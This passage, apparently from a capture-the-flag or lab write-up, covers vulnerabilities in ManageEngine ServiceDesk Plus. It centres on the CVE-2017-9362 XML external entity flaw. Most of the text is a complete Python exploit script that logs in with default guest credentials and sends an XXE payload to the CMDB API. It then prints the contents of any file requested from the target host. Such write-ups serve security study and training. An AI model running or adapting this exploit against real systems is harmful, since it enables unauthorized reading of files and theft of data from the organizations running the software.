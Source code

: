 
## ME SDP Vulnerabilities

This version of ManageEngine ServiceDesk Plus has numerous
vulnerabilities in it. I used two to gather additional information.

### CVE-2017-9362 - XXE

#### Vulnerability

There is an XML External Entity vulnerability that lets me get files
from the host. This vulnerability is described
[here](https://labs.integrity.pt/advisories/cve-2017-9362/index.md). I
wrote a quick script that allows me to request a file:



    import requests
    import sys

    xxe = """<!DOCTYPE foo [<!ENTITY xxe15d41 SYSTEM "file:///{filepath}"> ]><API version='1.0' locale='en'>
        <records>
            <record>
                <parameter>
                    <name>CI Name</name>
                    <value>Tomcat Server 3 0xdfstart&xxe15d41;0xdfstop</value>
                </parameter>
            </record>
        </records>
    </API>
    """


    def get_file(ip_address, filepath):
        login_url = "http://"+ip_address+":8080/j_security_check"
        api_url = "http://"+ip_address+":8080/api/cmdb/ci"
        login_data={"j_username": "guest", "j_password": "guest", "LDAPEnable": "false", "hidden": "Select a Domain", "hidden": "For Domain", "AdEnable": "false", "DomainCount": "0", "LocalAuth": "No", "LocalAuthWithDomain": "No", "dynamicUserAddition_status": "true", "localAuthEnable": "true", "logonDomainName": "-1", "loginButton": "Login", "checkbox": "checkbox"}
        
        with requests.Session() as s:
            s.post(login_url, data=login_data)
            xxe_data={"OPERATION_NAME": "add", "INPUT_DATA": xxe.format(filepath=filepath)}
            response = s.post(api_url, data=xxe_data)
            try:
                    print(response.text[response.text.index("0xdfstart") + len("0xdfstart"):response.text.index("0xdfstop")].replace("\\r\\n","\n"))
            except ValueError:
                print("Error: No data returned")

    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} [ip] [filepath]\nfilepath can be file on target, or smb or http uri")
        sys.exit(1)
    get_file(sys.argv[1],sys.argv[2].replace("\\", "/"))
